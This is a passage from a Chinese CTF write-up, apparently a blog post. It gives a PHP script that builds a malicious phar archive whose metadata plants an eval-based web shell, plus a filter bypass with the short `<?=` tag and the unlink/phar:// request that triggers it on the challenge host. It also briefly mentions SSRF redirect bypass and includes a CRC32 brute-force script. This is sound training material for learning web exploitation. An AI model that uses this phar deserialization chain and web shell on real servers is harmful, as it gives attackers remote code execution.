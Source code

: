 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210301015012338.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
经过一番尝试，发现文件上传只能上传图片，但是看到删除文件的功能，就想到`unlink函数`可以触发phar，并且code.html给了类

那就生成phar改一下名字，再用phar伪协议触发即可

由于文件上传的代码不允许php存在上传文件中，就用<?=绕过即可


```bash
<?php
class game
{
    public $file_name="shell.php";
    public $content = "<?=eval($_POST['cmd']);?>";

}
$a = new game();

$phar = new Phar('test.phar',0,'test.phar');
$phar->startBuffering();
$phar->setStub('GIF89a<?php __HALT_COMPILER(); ?>');


$phar->setMetadata($a);
$phar->addFromString('text.txt','test');
$phar->stopBuffering();

```
>unlink() 函数删除文件。 若成功，则返回 true，失败则返回 false。

用burp发包upload以后
在http://739c3f33.yunyansec.com/index.php?m=unlink

post数据file=phar://./sandbox/5.jpg

之后访问http://739c3f33.yunyansec.com/5.php即可获得flag

---
## web website(x)
- 考点 ssrf中使用302跳转进行bypass

---
## Misc Lsp们冲啊
- 考点：crc32+lsb隐写


![](https://img-blog.csdnimg.cn/20210301015655230.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
什么都没有 考虑crc碰撞  每个文件 3 字节

```bash
import binascii
import string
strings=string.printable
crcs=[0x07d3f356, 0xd878a99d, 0x4e25a843, 0x6e16e99d, 0x549248b9]
pwd=['']*5
for a in strings:
    for b in strings:
        for c in strings:
            crc=binascii.crc32((a+b+c).encode())
            for i in range(5):
                if(crc & 0xFFFFFFFF) ==crcs[i]:
                    pwd[i]= a+b+c
for i in pwd:
    print(i,end='')

```